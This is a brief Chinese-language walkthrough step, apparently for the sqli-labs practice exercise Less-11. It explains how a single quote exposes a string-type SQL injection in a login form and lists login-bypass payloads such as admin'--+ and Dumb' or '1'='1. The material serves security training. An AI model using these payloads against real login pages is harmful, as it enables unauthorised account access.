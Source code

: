 ![](img/less-10.b.png)

## Less-11

+ Username输入`admin`　 Password输入　`admin`　
页面正常显示，当用户名后添加　单引号时，页面返回错误报错

+ 通过报错信息得知　，闭合方式　；
　＇单引号　
字符型注入
　
+ 注入Payload：
    ```bash
    admin'--+ 
    admin' #  密码任意　　　　页面很和谐，　可正常显示。（万能用户名）
    admin1' or 1 -- 
    Dumb' or '1'='1   #万能用户名
    ```